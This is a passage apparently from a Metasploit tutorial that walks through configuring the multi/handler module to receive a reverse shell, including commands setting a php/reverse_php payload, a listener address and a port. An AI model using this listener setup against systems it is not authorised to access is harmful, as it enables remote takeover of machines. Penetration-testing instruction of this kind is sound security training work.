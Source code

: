Once any additional tool is loaded using the `load` command, you will see new options on the `help` menu.

#### Receiving a Connection

We will use Multi Handler to receive the incoming connection. The module can be used with the use `exploit/multi/handler` command.

Multi handler supports all Metasploit payloads and can be used for Meterpreter as well as regular shells.

To use the module, we will need to set the payload value, the LHOST, and LPORT values.

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/reverse_php
payload => php/reverse_php
msf5 exploit(multi/handler) > set lhost 10.0.2.19
lhost => 10.0.2.19
msf6 exploit(multi/handler) > set lport 7777
lport => 7777
```

### Shell to Meterpreter

